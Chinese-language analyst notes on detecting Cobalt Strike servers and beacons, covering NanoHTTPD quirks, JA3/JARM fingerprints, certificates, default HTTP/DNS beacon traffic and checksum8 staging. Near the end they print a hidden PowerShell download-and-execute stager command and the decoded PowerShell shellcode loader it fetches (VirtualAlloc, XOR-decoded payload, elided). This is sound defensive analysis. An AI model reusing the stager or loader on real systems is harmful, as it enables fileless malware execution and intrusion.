

# Cobalt Strike分析

**本小结所有内容对应cobalt strike 未魔改的版本**

**端口默认50050 **

**指纹识别：cs的补丁可以使特定的指纹识别变得困难Cobalt Strike服务器的”404 Not Found“ HTTP响应与NanoHTTPDweb服务器不同，并且能被探测到。**

#### nanohttpd方法：

**Cobalt Strike服务器基于NanoHTTPD，于2012年首次发布。NanoHTTPD是一个基于java的开源web服务器框架。NanoHTTPD服务器响应中包含一个额外的空字节："HTTP/1.1"后面是一个空字节（0x20），而在其他web服务器响应中不存在这个空字节。（cs<=3.13 ）**

#### ja3指纹方法：

[https://zhuanlan.zhihu.com/p/658722158](https://zhuanlan.zhihu.com/p/658722158)

> **TLS及其前身SSL用于加密通信，既用于普通应用程序，以保证数据安全，也用于恶意软件，因此它可以隐藏在噪音中。为了发起一个TLS会话，客户端将在TCP三次握手之后发送一个TLS客户端Hello报文。此包及其生成方式取决于构建客户机应用程序时使用的包和方法。如果服务器接受TLS连接，将使用基于服务器端库和配置以及客户端Hello中的详细信息制定的TLS服务器Hello数据包进行响应。由于TLS协商是以透明方式传输的，因此可以使用TLS client Hello包中的详细信息来识别和识别客户机应用程序。**

**对于由详细网络流量数据的用户，JA3是一种更可靠的发现Cobalt Strike服务器的方法。由三位Salesforce研究员开发的开源**[JA3](https://link.zhihu.com/?target=https%3A//github.com/salesforce/ja3)项目，可以通过对服务器和客户端之间的TLS协商进行指纹识别来检测可疑的HTTPS浏览

#### JARM指纹

**JARM**是一个主动TLS服务端指纹工具，JARM指纹与上层应用无强关联性，使用相同JDK的Tomcat和Cobalt Strike拥有相同的JARM指纹，这也解释了为什么会有那么多的Weblogic和Tomcat应用被识别出来了，因此不能直接通过JARM去判定CobaltStrike。同样，对于CobaltStrike而言JARM也并不唯一，其JARM与不同JDK环境下TLS服务有关。因此JARM仅仅是一种TLS服务端特征的标识方式，只能作为一个**辅助手段**，不能完全被用作Web上层应用的唯一指纹。

**证书指纹识别：如果使用者不修改证书的话**



**becon是什么**

```
“Beacon”通常指的是一种用于监视、传输数据或发出信号的小型装置或系统。它们通常被用于远程监控、定位或通信。

在计算机网络领域，"Beacon"通常指的是网络中的一个特殊数据包或信号，用于识别设备、监测网络性能或传递特定信息。例如，在无线网络中，Access Point（接入点）可能会定期发送"Beacon"信号以广播网络名称（SSID）和其他配置信息，以便让其他设备发现并连接到该网络。

在安全领域，"Beacon"通常指的是一种用于远程控制或传输数据的小型软件模块，常见于恶意软件中。这些"Beacon"会定期向控制服务器发送信号以获取指令，或者将被收集的数据传输回攻击者。这种类型的"Beacon"常用于持久性攻击、间谍活动或网络入侵。
```

**Listener是用来接收Beacon请求信息的Cobalt Strike模块**，此处不多介绍。

**Beacon翻译为信标，就像信标一样在网络中标识自己的方位：“嘿，我是肉鸡，我在这...”。可以通过下图来看****Beacon的工作原理**：


**在使用cobalt strike下达指令client 操作完之后，会出现post请求/sumbit.php？id=xxx的回传特征，该特征可以判断cobalt strike。**

**注：https-beacon 在 http-beacon 的基础上加入了 tls 层对流量加密，其他过程相似**

**① 基础特征：使用默认配置时存在的特征，可通过修改 profile 文件或证书将其隐藏；**

**② 强特征：需要修改 cobaltstrike 源码才能较好去除的这部分特征。**

### **基础特征**

#### (1)**http 请求**

**http-beacon通信中，默认使用get方法向 /dpixel、/__utm.gif、/pixel.gif 等地址发起请求，同时请求头存在 cookie 字段并且值为 base64 编码后的非对算算法加密数据**

#### (2)**https 证书**

**https-beacon 通信中，默认使用空证书建立加密通道，流量中可以看见这一过程。**

**dns-beacon 通信中，默认使用 “cdn.”、“www6.”、“api.”、“www.”、“post.” 为开头发起 dns 请求，并且查询结果伴随 0.0.0.0、0.0.0.80、0.0.0.241 等非常规 IP 。**

### **强特征**

#### (1)**chechsum8**

**运行 staging 模式的pe文件，会向指定服务器的checksum8 路径发起请求来下载 stage 。即使通过 profile 文件改变下载地址，但c2服务器依然会对checksum8 地址请求作出响应。**

#### (2)**ja3/ja3s**

**ja3 和 ja3s 分别代表 tls 握手阶段的 client-hello、server-hello 的数据集合计算出的哈希值（md5），相同版本相同系统下指纹相同，该特征与操作系统、cobaltstrike 版本有关，profile 文件无法对其修改。**

## 获取web-drive-by  shellcode

**生成shellcode**


```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.31.113:80/a'))"
```

**看看url 下有什么**


**吧base64的部分放到cyberchef 里面解密后ungzip 解压就得到shellcode**


```
Set-StrictMode -Version 2

function func_get_proc_address {
Param ($var_module, $var_procedure)
$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
[Parameter(Position = 1)] [Type] $var_return_type = [Void]
)

$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
[Byte[]]$var_code = [System.Convert]::FromBase64String('........')
for ($x = 0; $x -lt $var_code.Count; $x++) {
$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
}

```

**是对真正的pe文件进行异或35解密**
